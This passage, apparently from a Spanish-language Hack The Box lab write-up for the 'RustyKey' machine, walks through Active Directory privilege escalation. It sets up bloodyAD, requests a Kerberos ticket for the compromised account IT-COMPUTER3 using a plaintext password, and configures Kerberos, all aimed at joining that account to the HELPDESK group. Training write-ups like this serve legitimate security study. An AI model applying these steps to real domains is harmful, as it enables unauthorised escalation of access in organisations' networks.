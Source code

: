 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-15 120556.png" alt=""><figcaption></figcaption></figure>

Vamos a utilizar la herramienta `bloodyAD` para realizar todo esto, primero vamos añadirnos con la maquina `IT-COMPUTER3` al grupo de `HELPDESK` ya que tenemos los privilegios para ello.

URL = [GitHub Herramienta BloodyAD](https://github.com/CravateRouge/bloodyAD)

```shell
git clone https://github.com/CravateRouge/bloodyAD.git
cd bloodyAD/
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
```

Ahora antes de ejecutar la herramienta, vamos a generar un `TGT` del equipo `IT-COMPUTER3` para podernos autenticar desde `kerberos` y que no de error.

```shell
ntpdate rustykey.htb ; impacket-getTGT rustykey.htb/'IT-COMPUTER3':'Rusty88!'
```

Info:

```
2025-10-15 11:13:16.526978 (-0700) +1.225498 +/- 0.013941 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 1.225498
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in IT-COMPUTER3.ccache
```

Vamos a exportar la variable de `kerberos` para que podamos autenticarnos.

```shell
export KRB5CCNAME=IT-COMPUTER3.ccache
```

Una vez echo esto, en el archivo de `kerberos` vamos añadir el `dominio` de la maquina victima para que no haya problemas con el `KDC` del `DC` del `AD`.

```shell
sudo tee -a /etc/krb5.conf << 'EOF'
[libdefaults]
    default_realm = RUSTYKEY.HTB

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
EOF
```
